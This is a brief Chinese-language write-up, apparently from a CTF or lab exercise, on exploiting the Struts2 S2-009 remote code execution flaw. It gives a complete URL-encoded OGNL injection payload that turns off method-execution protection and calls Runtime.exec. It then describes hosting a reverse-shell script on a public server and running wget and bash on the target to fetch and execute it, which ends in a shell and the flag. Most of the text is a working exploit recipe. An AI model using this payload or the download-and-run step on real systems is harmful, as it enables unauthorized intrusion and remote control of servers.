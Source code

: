 Struts2 远程代码执行 (s2-009)

有cve，直接github找利用脚本，这里github上扫描工具打不成功，于是查询exp，手动打。有了打s2-061的经验，于是，公网搭建http服务器，写入反弹shell脚本，命令执行让目标下载执行。

payload：

/ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true

这边先执行wget http://xxx.xxx.xxx.xxx/2.sh

然后执行 bash 2.sh

![image-20220420113632038](./src/10.png)

![image-20220420113806813](./src/11.png)

成功拿到shell 和flag
